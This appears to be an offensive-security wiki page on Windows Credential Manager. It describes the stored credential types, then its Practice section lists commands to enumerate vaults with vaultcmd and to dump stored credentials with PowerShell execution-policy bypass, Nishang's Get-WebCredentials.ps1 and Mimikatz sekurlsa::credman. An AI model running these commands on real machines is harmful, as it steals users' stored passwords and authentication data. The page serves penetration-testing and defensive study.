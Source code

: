 # 🛠️ Windows Credential Manager



## Theory

Windows Credential Manager is a built-in feature that securely stores sensitive login information for websites, applications, and networks. It houses login credentials such as usernames, passwords, and web addresses. There are four distinct categories of stored credentials:

1. **Web-based credentials**: authentication details saved in web browsers (or other applications)
2. **Windows-specific credentials**: authentication data such as NTLM or Kerberos
3. **Generic credentials**: fundamental authentication data, such as clear-text usernames and passwords
4. **Certificate-based credentials**: comprehensive information based on certificates

## Practice 

From Windows systems, `vaultcmd.exe` can be used to enumerate, check and list Microsoft Credentials. However, this tool does not allow to see clear text passwords as it is an official, native, Windows program.

```powershell
#enumerate current Windows safes available
vaultcmd /list

#Check for credentials stored in the vault
VaultCmd /listproperties:"$coffre_name"

#more information about the Vault 
VaultCmd /listcreds:"$coffre_name"
```

The vault can be dumped in with [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1) (PowerShell) .

```powershell
powershell -ex bypass

Import-Module C:\Get-WebCredentials.ps1

Get-WebCredentials
```

Alternatively, [Mimkatz](https://github.com/gentilkiwi/mimikatz) (C) can be used for that purpose, with [`sekurlsa::credman`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/credman).


